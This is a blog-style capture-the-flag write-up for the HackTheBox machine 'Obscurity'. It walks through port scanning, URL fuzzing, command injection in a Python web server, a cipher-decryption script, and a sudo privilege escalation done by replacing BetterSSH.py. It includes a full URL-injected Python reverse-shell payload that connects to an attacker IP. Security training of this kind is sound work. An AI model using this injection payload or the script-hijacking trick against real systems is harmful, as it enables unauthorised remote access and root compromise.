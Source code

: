 ```yaml
---
layout: post
author: k0z4c
title: Obscurity
tags: hackthebox
---
```


## **Getting Access**

We start with

```bash
nmap -Pn -n -O -sC -vv -oA nmap/tcp_default obscurity
```

![]({% link assets/htb/obscurity/nmap.png %})

Looking at port 8080 and reading the home page we can see that there's a file somewhere on the webserver  called SuperSecureServer.py 

![]({% link assets/htb/obscurity/hint.png %})

We can try to fuzz the URL http://obscurity:8080 to search for that file; so we fire up dirbuster and we set URL fuzzing 
with this value /{dir}/SuperSecureServer.py using the wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt .

![]({% link assets/htb/obscurity/dirb.png %})

Let's download the file!

![]({% link assets/htb/obscurity/download.png %})

Diving into the source code we can see that handleRequest is the method of the class Server that perform the business logic 

![]({% link assets/htb/obscurity/handle.png %})

So looking at it, we can spot a command injection point in the called function serveDoc

![]({% link assets/htb/obscurity/injection.png %})

So we can inject commands simply doing an HTTP request that closes the quotes with:

```bash
'; <payload>;'
```

So we inject a reverse shell coded in python as the payload. 
Then, doing this HTTP request that will spawn a reverse shell on 443

```python
http://obscurity:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.44",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

So, after firing up a netcat linstener on 443 to handle the connection back,  we do:
(the URL is encoded with URL encoding) 

![]({% link assets/htb/obscurity/inj_exploit.png %})

... and voila!

![]({% link assets/htb/obscurity/user.png %})

## **Privilege escalation to user**

Poking around we find robert's folder 

![]({% link assets/htb/obscurity/robert.png %})

Let's see.. passwordreminider.txt is encrypted. So, analyzing SuperSecureCrypt.py nothing interesting is found.. 
So trying with the things we have, we end up that the user ciphered the key for passwrodreminder.txt (out.txt) with check.txt. 

Manipulating now a quick decrypter that reads the key from a file

```python
# file decrypt.py 

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

if __name__ == '__main__':

        with open('check.txt', 'r', encoding='UTF-8') as f:
                key = f.read()

        with open('out.txt', 'r', encoding='UTF-8') as f:
                text = f.read()
        decrypted = decrypt(text, key)
        print(decrypted)
```

Then we recover the key for passwrodreminder.txt

![]({% link assets/htb/obscurity/mid.png %})

We save the result in a file called key.txt. Then changing in our script the key file with key.txt and out.txt with the passwordreminder.txt and we get the password:

![]({% link assets/htb/obscurity/key.png %})

.. OKay, what next? 
There was an SSH port opened.. let's try!

So, Connecting now through SSH with the new key we log as robert user

![]({% link assets/htb/obscurity/login.png %})

Now we can read the user's flag

![]({% link assets/htb/obscurity/user_flag.png %})

user pwnd!

let's move forward

## Privilege escalation for root

Looking at the BetterSSH.py script we see that it uses sudo; so it is enabled on the system and user robert is in the sudoers file too.
Then let's check robert's sudo privileges

![]({% link assets/htb/obscurity/sudo.png %})

So roberts can execute BetterSSH.py with root privileges without requiring a password neither.

The first thing that came on to my mind was to backdoor the file but we can not modify the script (owned by root). 
So after a while, we can spot that yes, we can not modify the file but we can modify the folder

![]({% link assets/htb/obscurity/spot.png %})

so.. we can implant a new  script with the name BetterSSH.py that spawns a root shell. 
Very very bad, mr. Robert!

Writing then a quick script to obtain a shell through python (recycle, man) and saving it as BetterSSH.py in a new BetterSSH folder:
(remember to mv the original one like mv BetterSSH smth)

```python
# BetterSSH.py
while True:
    command = input('> ')
    cmd.extend(command.split(" "))
    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    o,e = proc.communicate()
    print('Output: ' + o.decode('ascii'))
    print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

let's execute now the script with sudo 

![]({% link assets/htb/obscurity/root.png %})

... pwned (:
